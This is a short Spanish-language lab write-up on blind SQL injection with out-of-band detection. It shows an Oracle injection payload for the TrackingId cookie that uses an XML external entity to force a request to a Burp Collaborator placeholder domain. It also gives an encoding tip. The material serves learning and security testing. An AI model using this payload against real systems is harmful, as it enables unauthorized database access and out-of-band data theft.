 
La vulnerabilidad reside en la cookie ‘**TrackingId**‘, que es inyectada en una consulta SQL. Aprovechamos esta situación para insertar un payload que provoca una resolución DNS hacia un dominio controlado, utilizando la funcionalidad de Burp Collaborator.

Combinamos la inyección SQL con una entidad externa en XML (**XXE**) que genera una solicitud automática a un subdominio de Collaborator, confirmando así que la inyección fue ejecutada aunque no haya evidencia directa en la respuesta HTTP.

Esta clase introduce un enfoque más avanzado de explotación cuando no hay errores, retardos ni cambios visibles, y prepara el terreno para el siguiente paso: la exfiltración real de datos usando canales fuera de banda

------
#### Para hacer peticiones a dominios externos, podemos usar Requestsbin

Primero debemos de probar todas las posibilidades para sabes si es vulnerable a SQL, y en dado caso de no tener exito, realizamos el siguiente payload en el valor de la cookie TrackingId:

```xml
TrackingId=codncnov1' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

**Recuerda Urlencodear los ; y los % para que no entre en conflicto con el formato de la peticion**







